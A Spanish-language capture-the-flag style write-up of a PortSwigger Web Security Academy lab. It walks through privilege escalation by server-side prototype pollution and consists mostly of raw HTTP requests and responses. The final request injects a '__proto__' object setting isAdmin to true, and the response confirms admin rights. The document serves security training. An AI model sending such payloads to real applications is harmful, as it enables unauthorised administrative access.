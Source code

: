 ```yaml
---
description: >-
  https://portswigger.net/web-security/prototype-pollution/server-side/lab-privilege-escalation-via-server-side-prototype-pollution
---
```


# Lab 6: Privilege escalation via server-side prototype pollution

Primero revisamos el trafico que genera el aplicativo web y se detecta el siguiente request:

{% code overflow="wrap" %}
```json
POST /my-account/change-address HTTP/2
Host: 0a2600020363cc7c82e897a300e1005e.web-security-academy.net
Cookie: session=6dQ1ygb3I2MOSq2gg6pJV2Ojnb2pWtiq
Content-Length: 168
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */
Origin: https://0a2600020363cc7c82e897a300e1005e.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a2600020363cc7c82e897a300e1005e.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"6dQ1ygb3I2MOSq2gg6pJV2Ojnb2pWtiq"}
```
{% endcode %}

La peticion anterior responde asi:

{% code overflow="wrap" %}
```json
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"d1-h8RJcJes4ggLc1QgdnqPhZHRM9I"
Date: Tue, 25 Jun 2024 19:49:37 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 209

{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","isAdmin":false}
```
{% endcode %}

Luego de lo anterior, enviamos la siguiente peticion:

{% code overflow="wrap" %}
```json
POST /my-account/change-address HTTP/2
Host: 0a2600020363cc7c82e897a300e1005e.web-security-academy.net
Cookie: session=6dQ1ygb3I2MOSq2gg6pJV2Ojnb2pWtiq
Content-Length: 203
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */
Origin: https://0a2600020363cc7c82e897a300e1005e.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a2600020363cc7c82e897a300e1005e.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"6dQ1ygb3I2MOSq2gg6pJV2Ojnb2pWtiq","__proto__": {
    "foo":"bar"
}}
```
{% endcode %}

La peticion anterior es lo mismo pero se le esta adicionando esto:

```
"__proto__": {
    "foo":"bar"
}
```

Y la respuesta fue la siguiente:

{% code overflow="wrap" %}
```json
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"d1-h8RJcJes4ggLc1QgdnqPhZHRM9I"
Date: Tue, 25 Jun 2024 19:48:27 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 209

{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","isAdmin":false,"foo":"bar"}
```
{% endcode %}

La respuesta incluyo el objeto de JSON enviado.

Por lo anterior, se procede con el envio del siguiente request:

```json
POST /my-account/change-address HTTP/2
Host: 0a2600020363cc7c82e897a300e1005e.web-security-academy.net
Cookie: session=6dQ1ygb3I2MOSq2gg6pJV2Ojnb2pWtiq
Content-Length: 208
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */
Origin: https://0a2600020363cc7c82e897a300e1005e.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a2600020363cc7c82e897a300e1005e.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"6dQ1ygb3I2MOSq2gg6pJV2Ojnb2pWtiq",
"__proto__": {
    "isAdmin":true
}}
```

Y tenemos como respuesta:

{% code overflow="wrap" %}
```json
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"d0-C/bYHMdz0P5+PlERv2aVqQjVdR8"
Date: Tue, 25 Jun 2024 19:49:43 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 208

{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","isAdmin":true,"foo":"bar"}
```
{% endcode %}

Teniendo en cuenta lo anterior, hemos realizado una escalacion de privilegios y esto lo podemos validar accediendo a:

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>
